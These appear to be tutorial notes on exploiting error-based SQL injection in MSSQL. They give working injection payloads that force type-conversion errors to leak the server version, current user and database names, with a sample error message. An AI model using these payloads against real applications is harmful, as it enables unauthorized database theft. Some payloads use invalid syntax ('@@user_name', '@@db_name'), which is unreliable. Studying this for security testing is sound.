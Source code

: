 How to exploit error-based SQLi?

Extracting information using error-based SQLi is really quick and its available in ORACLE, postgreSQL and MSSQL.

Most of the time the error message is not reflected in the webapp output, but it can be embedded in an email message or appended to a log file. We can use error-based SQLi to dump information about the database itself, like database names, schemas and useful data.

Schemas are databases which purpose is to describe all other user-defined databases.

in MSSQL, the name of the database objects are revealed within errors. the user sa is the super admin and has access to the master database. The master database contains schemas of user-defined dbs.

First thing we can do to start exploting it is to discover the database version, we can trigger a type conversion error for that:

```text
99999 or 1 in (SELECT TOP 1 CAST(<FIELDNAME> as varchar(4096)) from <TABLENAME> WHERE <FIELDNAME> NOT IN (<LIST>)); --
```
* `99999` is a bogus value.
* `or 1 in` is the part of the query that will trigger the error, we are trying to find 1, an integer, within a varchar column.
* `CAST(<FIELDNAME> as varchar(4096))` is where we insert the column that we want to dump (either user-based or special database column). 
* `<FIELDNAME>` can also be a SQL function like `user_name()` or a variable like `@@version`
* `WHERE <FIELDNAME> NOT IN (<LIST>)` this part is used to dump the database and can be ommited or ajusted.

To retrieve the SQL version:

```text
99999 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096))) --
```
```text
[Microsoft] [SQL Server Native Client 10.0] [SQL Server]Conversion failed when converting the varchar value 'Microsoft SQL Server 2008 R2 (SP2) - 10.50.4000.0 (X64) Jun 28 2012 08:36:30 Copyright (c) Microsoft Corporation Express Edition (64-bit) on Windows NT 6.1 (Build 7601: Service Pack 1) (Hypervisor) ' to data type int.
```

So, with all this information, how can I dump the entire database?

First of all, we need to discover some stuff:

* Current database username

```text
99999 or 1 in (SELECT TOP 1 CAST(@@user_name as varchar(4096))) --
```

* Current databases and all other databases the user can read

```text
99999 or 1 in (SELECT TOP 1 CAST(@@db_name(0) as varchar(4096))) --
99999 or 1 in (SELECT TOP 1 CAST(@@db_name(1) as varchar(4096))) --
99999 or 1 in (SELECT TOP 1 CAST(@@db_name(2) as varchar(4096))) --
```
